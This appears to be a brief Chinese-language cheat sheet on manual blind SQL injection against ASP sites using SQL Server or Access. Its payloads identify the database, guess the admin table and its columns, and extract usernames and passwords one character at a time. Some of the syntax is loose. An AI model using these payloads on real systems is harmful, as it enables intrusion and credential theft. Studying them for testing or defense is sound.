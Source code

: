 # sqlserver
## 注入点寻找，判断和access一样
## 配置文件
`<%` \
`set conn =server.createobject("adodb.connection")` \
`conn.open "provider=sqloledb;source=local;uid=sa;pwd=*****;database-name"` \
`%>`
## 判断数据库
mssql数据库 \
`and 1=(select count(*) from sysobjects)>0` \
access数据库 \
`and 1=(select count(*) from msysobjects)>0` \
## 猜表名
`and 1=(select count(*) from admin)` \
`and 1=(select count(*) from login)`
## 猜列名
`and 1=(select count(user) from admin)` \
`and 1=(select count(password) from admin)`
## 猜第一个user的长度
`and 1=(select top 1 len(user) from admin)` \
`and 1=(select top 1 len(password) from admin)`
## 猜ascii值，再转成字符
第一个user的第一个字符的ascii \
`and 1=(select top 1 asc(mid(user,1,1)) from admin)>96` \
第一个user的第二个字符的ascii \
`and 1=(select top 1 asc(mid(user,2,1)) from admin)>55` \
第一个user对应的密码的第一个字符 \
`and 1=(select top 1 asc(mid(password,1,1)) from admin)>100` 
